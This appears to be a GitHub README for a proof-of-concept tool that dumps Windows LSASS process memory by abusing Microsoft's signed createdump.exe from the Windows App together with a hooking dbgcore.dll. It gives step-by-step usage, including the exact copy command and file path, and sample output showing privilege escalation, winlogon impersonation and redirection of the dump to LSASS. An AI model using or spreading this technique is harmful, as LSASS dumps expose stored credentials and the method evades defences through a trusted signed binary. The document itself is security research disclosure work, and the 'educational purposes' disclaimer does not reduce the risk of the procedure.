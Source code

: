 # <img src="https://store-images.s-microsoft.com/image/apps.54073.13902538874112719.524cfb4a-0a7d-45be-bae7-dc1bb3a1c4af.bfaf52ba-a25c-4b1d-b32b-07d3e5c8bb8e?h=210" alt="Windows App" width=32/> Windows App LSASS Dump - Proof of Concept

This project demonstrates how to dump the LSASS process using the `createdump.exe` tool, a Microsoft signed executable, from the Windows App, leveraging a custom hook to enable process access to `LSASS`.

## How to Use

1. **Copy createdump from WindowsApp folder to a folder of choice (`copy C:\Program Files\WindowsApps\MicrosoftCorporationII.Windows365_2.0.285.0_x64__8wekyb3d8bbwe\wnc\createdump.exe .`)**
2. **place `dbgcore.dll` from this repo in the same folder**
3. **execute createdump (optionally provide parameters)**

Output should be something like this:
```
c:\work\_createdump>createdump.exe
WindowsApp PoC by Remko Weijnen
(ab)uses createdump tool from "The WindowsApp" to create an LSASS dump

Successfully hooked OpenProcess
OpenProcess called
Attempting to enable SeDebugPrivilege...
SeDebugPrivilege successfully enabled!
Attempting to impersonate winlogon...
Successfully impersonated winlogon
[createdump] Writing minidump with heap for process 35828 to file C:\Users\me\AppData\Local\Temp\dump.35828.dmp
MiniDumpWriteDump called with:
  ProcessId: 35828
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41a25
ProcessId changed to LSASS (PID: 1512)
Loaded DbgHelp.dll from: C:\Windows\System32\DbgCore.dll
Calling original with:
  ProcessId: 1512
  hProcess: 0x0000000000000184
  hFile: 0x00000000000001BC
  DumpType: 0x41026
MiniDumpWriteDump result: Success
[createdump] Dump successfully written in 270ms
DLL unloading, hooks removed.
```

## Disclaimer

This project is intended for educational purposes only. Misuse of this tool could violate privacy and security policies.
